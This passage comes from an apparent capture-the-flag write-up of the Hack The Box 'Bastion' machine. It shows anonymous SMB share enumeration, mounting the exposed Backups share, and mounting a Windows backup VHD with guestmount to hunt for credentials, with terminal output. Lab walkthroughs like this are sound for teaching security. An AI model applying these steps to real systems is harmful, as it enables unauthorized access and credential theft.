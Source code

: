 ![](http://vedanttare.com/wp-content/uploads/2022/04/smbclient.png)

Now, reconnecting with SMB1 for workgroup listing.  
`do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)<br></br>Unable to connect with SMB1 -- no workgroup available`

We could see that there was a share called Backups which was interesting and the others showed access denied. So, I listed the backups share.  
`smbclient //10.10.10.134/Backups`

`kali@starscorp1o:~/htb/boxes/bastion$ smbclient //10.10.10.134/Backups<br></br>Enter WORKGROUP\kali's password:<br></br>Try "help" to get a list of possible commands.<br></br>smb: > ls<br></br>. D 0 Tue Apr 16 06:02:11 2019<br></br>.. D 0 Tue Apr 16 06:02:11 2019<br></br>note.txt AR 116 Tue Apr 16 06:10:09 2019<br></br>SDT65CB.tmp A 0 Fri Feb 22 07:43:08 2019<br></br>WindowsImageBackup D 0 Fri Feb 22 07:44:02 2019`

The note.txt said:-  
**Sysadmins: please don’t transfer the entire backup file locally, the VPN to the subsidiary office is too slow.**

I couldn’t decipher to what this was actually trying to tell me. Though, there was a WindowsImageBackup directory. After digging deep inside it, I couldn’t actually find anything interesting. So, I decided to mount this share on my kali machine so that I can maybe look at hidden files, etc.

`kali@starscorp1o:~/htb/boxes/bastion$ sudo mount -t cifs //10.10.10.134/backups /mnt -o user=,password=<br></br>[sudo] password for kali:<br></br>kali@starscorp1o:~/htb/boxes/bastion$ ls<br></br>BackupGlobalCatalog {cd113385-65ff-4ea2-8ced-5630f6feca8f} GlobalCatalog MediaId nmap nmapfull nmapudp note.txt SDT65CB.tmp<br></br>kali@starscorp1o:~/htb/boxes/bastion$ cd /mnt<br></br>kali@starscorp1o:/mnt$ ls<br></br>note.txt SDT65CB.tmp WindowsImageBackup`

With this I could properly browse through the share and checkout hidden files using `ls -la`.

## Exploitation

I enumerated a lot, but couldn’t find anything properly. Then I saw something interesting. I had found a .vhd file, I googled this extension and it said that it was virtual hard disk which means that it stores all the contents of a hard of a virtual machine. At this point I knew that somewhere I had to find creds so that I could login through SSH. So, I had to somehow get this .vhd file so that I could browse through it for some creds. I googled a bit more and found an article that said that as the .vhd files are too big it’ll take too long to transfer the whole thing. So we had to mount the .vhd file somehow.

Now we had to mount the .vhd file and there was a tool for that called `guestmount`. First we had to install some tools:  
`sudo apt-get install libguestfs-tools<br></br>[sudo] password for kali:<br></br>Reading package lists… Done<br></br>Building dependency tree<br></br>Reading state information… Done`  
The following packages were automatically installed and are no longer required. Then using guestmount:

`kali@starscorp1o:/mnt$ guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/'Backup 2019-02-22 124351'/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd -v<br></br>libguestfs: creating COW overlay to protect original drive content<br></br>libguestfs: command: run: qemu-img<br></br>libguestfs: command: run: \ create<br></br>libguestfs: command: run: \ -f qcow2<br></br>libguestfs: command: run: \ -o backing_file=/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd<br></br>libguestfs: command: run: \ /tmp/libguestfsNaQKfQ/overlay1.qcow2<br></br>Formatting '/tmp/libguestfsNaQKfQ/overlay1.qcow2', fmt=qcow2 size=15999492096 backing_file=/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd cluster_size=65536 lazy_refcounts=off refcou<br></br>nt_bits=16<br></br>libguestfs: launch: program=guestmount<br></br>libguestfs: launch: version=1.42.0<br></br>libguestfs: launch: backend registered: unix<br></br>libguestfs: launch: backend registered: uml<br></br>libguestfs: launch: backend registered: libvirt`

